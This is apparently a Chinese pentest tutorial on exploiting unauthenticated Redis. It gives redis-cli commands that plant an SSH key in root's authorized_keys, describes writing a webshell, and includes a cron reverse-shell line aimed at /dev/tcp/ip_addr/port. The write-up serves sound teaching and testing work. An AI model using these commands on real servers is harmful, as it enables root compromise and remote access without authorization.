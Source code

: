 ```yaml
---
title: Redis未授权访问
date: 2019-02-27 14:24:10
tags: 漏洞
categories: 渗透测试
---
```


# 0x01 漏洞简介
Redis默认配置未配置密码，如果Redis以root用户运行，攻击者可以给root账号写入SSH公钥文件，直接通过SSH免密登录服务器。Redis默认端口为6379端口。若此端口未限制公网访问，会导致Redis服务暴露公网，造成未授权访问。


# 0x02 攻击手段
## 连接测试
已知网络靶场IP为219.153.49.228，Redis端 口为47234，提供了http端口为41481。使用redis客户端进行连接尝试：
```bash
./redis-cli -h 219.153.49.228 -p 47234
```
![](2019-02-27-Redis未授权访问\连接测试.PNG)

## 本地生成公私钥
若Redis以root用户运行，可以直接将本地生成的公钥导入到/root/.ssh/authorized.keys文件中实现免密登录。
```bash
ssh-keygen -t rsa
```
![](2019-02-27-Redis未授权访问\生成公私钥.PNG)

## 公钥写入
由于网络靶场写入/root/.ssh/的权限受限，因此以之前对公司内网测试获取的一台Redis服务器为例。
先将公钥写入文件：
```bash
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > h.txt
```
![](2019-02-27-Redis未授权访问\公钥写入文件.png)

将h.txt的内容写入到redis服务器key为test对应的value中。
```bash
cat h.txt | /usr/redis/./redis-cli -h xxx.xxx.xxx.xxx -p 6389 -x set test
```
![](2019-02-27-Redis未授权访问\写入value.PNG)

设置redis的dbfilename路径为/root/.ssh/authorized_keys，并保存。
```
config set dir /root/.ssh

config set dbfilename authorized_keys

save
```
![](2019-02-27-Redis未授权访问\修改dbfilename.png)

直接使用ssh访问服务器查看权限和文件，可见为root权限用户。
![](2019-02-27-Redis未授权访问\查看权限.png)

## 写入webshell
网络靶场写入/root/.ssh/的权限受限，且存在php站点，因此尝试写入webshell。
设置Redis备份目录为php站点目录：/var/www/html/，文件名任意。
![](2019-02-27-Redis未授权访问\写入webshell.png)

使用浏览器访问webshell，可以正常访问。
![](2019-02-27-Redis未授权访问\连接webshell.png)

## 写入定时任务
同理，将Redis备份目录改为/var/spool/cron，使用nc进行监听反弹shell。
```
set xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/ip_addr/port 0>&1\n\n"
config set dir /var/spool/cron
config set dbfilename root
```

# 0x03 参考
[Redis未授权访问详解](https://www.freebuf.com/column/158065.html)
